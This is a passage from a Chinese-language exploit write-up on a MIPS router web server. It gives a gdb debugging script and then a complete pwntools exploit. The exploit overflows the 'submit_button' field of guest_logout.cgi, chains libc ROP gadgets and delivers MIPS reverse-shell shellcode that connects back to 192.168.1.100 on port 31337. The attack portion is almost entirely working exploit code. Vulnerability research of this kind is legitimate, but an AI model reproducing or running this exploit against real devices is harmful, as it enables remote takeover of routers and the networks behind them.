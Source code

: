 在调试过程可以断到gadget，以及加载libc符号，如果觉得每次敲gdb命令比较繁琐，可以将gdb的命令保存成文件，然后在使用`gdb-multiarch`通过`-x`选项直接通过文件加载命令：

```
➜  cat gdb.cmd 
set architecture mips
set endian little
b * 0x2afbd7a0
add-symbol-file libc.so.0 0x2af98000
target remote 192.168.1.1:1234
➜  gdb-multiarch httpd -x ./gdb.cmd
```

因为是shell回连，所以想在一个脚本里优雅的完成整个流程，所以起一个线程去攻击，主线程开个端口等待回连。pwntools是有`wait_for_connection`这个功能的。shellcode用的是：[Linux/mips - Reverse Shell Shellcode - 200 bytes by Jacob Holcomb](http://shell-storm.org/shellcode/files/shellcode-860.php)，回连地址修改成了192.168.1.100，端口仍是31337。完整exp如下：

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000
jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0
jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0 

shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x01\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

payload = "status_guestnet.asp"+'a'*49+p32(jmp_a0)+0x20*'a'+p32(jmp_s0)+0x18*'a'+shellcode
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"192.168.1.100"}

def attack():
    try: requests.post("https://192.168.1.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.start_new_thread(attack,())
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

### 栈迁移
